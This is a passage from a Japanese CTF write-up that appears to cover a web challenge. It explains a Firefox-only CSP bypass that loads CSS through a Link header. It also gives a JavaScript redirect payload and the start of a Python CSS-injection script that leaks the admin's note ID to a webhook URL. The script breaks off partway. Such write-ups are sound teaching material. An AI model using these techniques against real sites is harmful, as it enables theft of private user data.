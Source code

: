 良さげ。なお、WHATWGによれば

> The above prohibits supporting, for example, CESU-8, UTF-7, BOCU-1, SCSU, EBCDIC, and UTF-32. This specification does not make any attempt to support prohibited encodings in its algorithms; support and use of prohibited encodings would thus lead to unexpected behavior. [CESU8] [UTF7] [BOCU1] [SCSU]
> https://html.spec.whatwg.org/#character-encodings

だそうです。UTF-7とかでbypassしたかったけどモダンなブラウザでは無理っぽいです。すべておしまい。

以上、NG集でした。

## 解法

アイデアが尽きてきて行き詰まってたんですが、アイデア出しに参加してもらってたチームメンバーの人が、LinkヘッダでCSSを読み込めることを見つけて来てくれました。

！？

いや〜そんなばかな、ヘッダでCSS読み込めるわけないじゃんと思っていたらfirefoxだと読み込めました。

::: webcard https://qiita.com/mpyw/items/203012d8b9e5386e6f0b
:::

firefoxのみこの仕様みたいです。これじゃん。

あとはフラグまで一本道です。

```css
{} * { background: black; }
```
のようなCSSになっているノートを投稿して（ノートID：`zibXjydLKQ`）


```javascript
location = "http://34.84.69.72:8080/?k=Link&v=" + encodeURIComponent("<http://34.84.69.72:8080/notes/zibXjydLKQ?k=Content-Type&v=" + encodeURIComponent("text/css; charset=utf-8") + ">; rel=\"stylesheet\"")
```
でCSP bypassしたら

![](/images/2021/20211006-tsgctf-05.png)
で期待通り背景真っ暗になることが確認できました。

CSS InjectionでadminのノートIDを盗むスクリプトを書きます：

```python
import httpx
from urllib.parse import quote

# base_url = "http://localhost:8080"
base_url = "http://34.84.69.72:8080"
base_ssrf_url = "http://app:8080"

hook_url = "https://webhook.site/xxx-xxx-xxx-xxx-xxx"

chars = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789"

suffix = "R1cmOAtdG"  # 現時点で確定しているIDのsuffix
n = 1                 # 一度に確定する文字数


def f(n: int):
    note_description = "{}\n"

    def rec(d: int, s: str) -> list[str]:
        if d == n:
            return [s]
        else:
            return sum([rec(d+1, s+c) for c in chars], [])

```

[^1]: web問でのbotは大抵chromeが使われるので、firefoxの場合には「そこが攻撃ポイントになることが多い」というメタ読みができます。